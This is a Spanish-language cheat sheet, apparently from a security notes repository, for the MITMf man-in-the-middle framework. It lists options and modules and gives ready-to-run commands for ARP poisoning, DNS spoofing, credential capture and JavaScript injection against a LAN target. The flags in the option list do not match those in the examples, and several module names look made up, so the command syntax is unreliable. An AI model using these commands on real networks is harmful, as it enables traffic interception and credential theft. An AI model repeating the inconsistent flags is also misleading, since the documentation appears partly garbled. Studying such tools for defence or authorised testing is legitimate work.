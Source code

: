 ### **Network_Security/MITMF/mitmf.md**

# MITMF

## Descripción

`MITMF` (Man-in-the-Middle Framework) es una herramienta de seguridad que facilita la realización de ataques de hombre en el medio (MITM). Proporciona una plataforma modular para interceptar, manipular y analizar el tráfico de red entre clientes y servidores. Incluye plugins para ataques específicos como inyección de contenido, sniffing de contraseñas y más.

## Uso

```bash
sudo mitmf [opciones]
```

### Opciones principales

- `--arp`: Realiza envenenamiento ARP para MITM.
- `--spoof`: Activa el spoofing de DNS o HTTP.
- `--inject`: Inyecta contenido en el tráfico interceptado.
- `--sniff`: Habilita la captura de credenciales y datos sensibles.
- `-i interfaz`: Define la interfaz de red a utilizar.
- `-t objetivo`: Especifica la dirección IP del objetivo.
- `--help`: Muestra la ayuda y las opciones disponibles.

## Módulos comunes

- `dns_spoof`: Spoofing de respuestas DNS para redirigir el tráfico.
- `inject_html`: Inyecta código HTML malicioso en páginas web.
- `capture_credentials`: Captura credenciales enviadas a través de formularios web.
- `inject_javascript`: Inyecta scripts JavaScript en el tráfico HTTP.

## Ejemplos

- **Realizar un ataque ARP MITM en la interfaz eth0:**
  ```bash
  sudo mitmf --arp --gateway 192.168.1.1 --target 192.168.1.100 -i eth0
  ```

- **Activar el spoofing de DNS y capturar credenciales:**
  ```bash
  sudo mitmf --arp --dns --capture --target 192.168.1.100 -i wlan0
  ```

- **Inyectar un script JavaScript en el tráfico HTTP:**
  ```bash
  sudo mitmf --arp --inject-javascript 'alert("MITM Attack")' --target 192.168.1.100 -i wlan0
  ```

- **Realizar un ataque completo con envenenamiento ARP y spoofing DNS:**
  ```bash
  sudo mitmf --arp --spoof --dns --target 192.168.1.100 -i eth0
  ```
